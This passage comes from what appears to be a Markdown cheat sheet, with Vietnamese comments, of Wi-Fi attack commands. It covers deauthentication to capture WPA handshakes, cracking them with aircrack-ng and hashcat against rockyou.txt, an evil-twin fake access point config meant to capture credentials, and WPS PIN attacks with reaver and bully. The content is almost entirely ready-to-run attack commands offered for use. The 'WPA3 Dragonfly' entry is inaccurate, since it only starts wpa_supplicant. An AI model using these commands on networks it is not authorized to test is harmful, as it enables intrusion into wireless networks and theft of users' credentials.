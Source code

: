 ### 3️⃣ **WPA/WPA2 Attack**
```bash
# Deauth để bắt handshake
aireplay-ng -0 10 -a [BSSID] -c [CLIENT] wlan0mon

# Crack với wordlist
aircrack-ng -w rockyou.txt capture-01.cap

# Hoặc dùng hashcat
hashcat -m 2500 capture.hccapx rockyou.txt
```

### 4️⃣ **Evil Twin Attack**
```bash
# Tạo fake AP config
echo 'interface=wlan1
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6' > hostapd.conf

# Khởi động fake AP
hostapd hostapd.conf

# Setup DHCP và routing
# Capture credentials
```

---

## 🛡️ **WPA3 & Modern Attacks:**

### 🔐 **WPA3 Dragonfly Attack**
```bash
# Sử dụng wpa_supplicant với SAE
wpa_supplicant -i wlan0 -c wpa3_config.conf
```

### 📱 **WPS Attacks**
```bash
# Reaver - WPS PIN attack
reaver -i wlan0mon -b [BSSID] -vv

# Bully - Alternative WPS tool
bully -b [BSSID] -c [CHANNEL] wlan0mon
```

---

## 🎯 **Attack Types Summary:**
